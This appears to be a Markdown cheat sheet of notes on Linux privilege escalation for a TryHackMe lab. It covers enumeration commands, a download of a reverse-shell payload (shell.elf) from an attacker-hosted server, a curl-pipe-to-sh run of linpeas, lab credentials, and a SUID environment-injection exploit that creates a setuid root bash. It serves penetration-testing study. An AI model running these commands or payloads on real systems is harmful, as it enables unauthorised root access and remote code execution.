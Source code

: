 # 1. TEST SETUP/ENVIRONMENT

## TRYHACKME
```
https://tryhackme.com/room/linuxprivesc
ssh user@1.1.1.1
ssh -oHostKeyAlgorithms=+ssh-dss user@1.1.1.1
pass:password321
```

## METASPLOITABLE


## FILE TRANSFER - WEB BASED
```
cd /var/www/html/priv_esc
python3 -m http.server
wget http://10.18.5.137:8000/shell.elf
```

## FILE TRANSFER - SMB BASED



# 2. MANUAL ENUMERATION 

## USERS
```
whoami
id
cat /etc/passwd
```

## HOSTNAME
```
hostname
```

## OS VERSION & ARCHITECTURE
```
cat /etc/issue
cat /etc/~release
uname
uname -a
```

## RUNNING PROCESS & SERVICES
```
ps 
ps -aux
pgrep mysqld
```

## NETWORK INFORMATION 
```
ifconfig
ifconfig -a
ip a
route
routel
/sbin/route
netstat
ss -anp
```

## FIREWALL STATUS AND RULES
```
/etc/iptables
/sbin/iptables
iptables -L -v
```

## SCHEDULED TASKS
```
ls -lah /etc/cron*
cat /etc/crontab 
```

## INSTALLED APPS & PATCH LEVELS
```
dpkg –l
dpkg -l | grep whois
```

## READABLE/WRITABLE FILES AND DIRECTORIES
```
find / -writeable -type d 2>/dev/null
```

## UNMOUNTED DISKS
```
mount
cat /etc/fstab
/bin/lsblk
```

## DEVICE DRIVERS AND KERNEL MODULES
```
/sbin/modinfo ip_tables
lsmod
```

## BINARIES THAT AUTO ELEVATE
```
find / -perm -u=s -type f 2>/dev/null
```

# 3. AUTOMATED ENUMERATION 

## UNIX-PRIVESC-CHECK
```
https://pentestmonkey.net/tools/audit/unix-privesc-check
sudo wget https://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz
sudo tar -xf unix-privesc-check-1.4.tar.gz
wget http://10.18.5.137:8000/unix-privesc-check-1.4/unix-privesc-check
chmod 777 unix-privesc-check
./unix-privesc-check
./unix-privesc-check standard
./unix-privesc-check detailed
./unix-privesc-check standard > output.txt
cat output.txt
```

## LINPEAS
```
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## LINUX PRIVILEGE CHECKER


# 4. MISCONFIGURATIONS/VULNERABILITIES EXPLOITATION 



## CATEGORY "SUID / SGID EXECUTEABLES" - ABUSING SHELL FEATURES 2

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

/tmp/rootbash -p

rm /tmp/rootbash

exit
```
